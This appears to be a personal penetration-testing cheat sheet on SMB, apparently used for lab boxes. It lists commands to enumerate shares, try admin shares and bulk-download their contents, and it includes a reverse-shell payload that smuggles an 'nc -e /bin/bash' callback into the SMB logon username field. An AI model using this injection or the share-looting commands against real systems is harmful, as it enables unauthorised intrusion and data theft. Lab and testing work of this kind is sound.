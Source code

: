 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[SMB]]  
___

## Description:  

**To see which shares are available on a given host, run:


```
#Use impacket-smbclient to enumerate shares, Ive had issues with smbclient

impacket-smbclient user@10.10.110.5

smbclient -L //192.168.101.11/

enum4linux -S 192.168.101.11

sudo nmap --script smb* 192.168.93.40

#To download everything in a directory

smbget -R smb://fileserver/directory
smbget -U anonymous -R "smb://dc01.coder.htb/Development/Temporary Projects"

```


**Try common shares if you cannot list them:

```
smbclient //192.168.93.40/ipc$
smbclient //192.168.93.40/c$
smbclient //192.168.93.40/admin$

```


**to put a file on the share:

`put test.txt

**To get a file:

`get example.txt

**Reverse shells:

`logon “/=`nc 192.168.49.101 4444 -e /bin/bash`"


**Hosting a smb share
 
`impacket-smbserver public .
(creates a share with the name PUBLIC `\\10.10.14.114\PUBLIC\test.txt`)

**Download everything**
`smbget -R smb://fileserver/directory`
`smbget -U anonymous -R "smb://dc01.coder.htb/Development/Temporary Projects"`

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (01:56 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
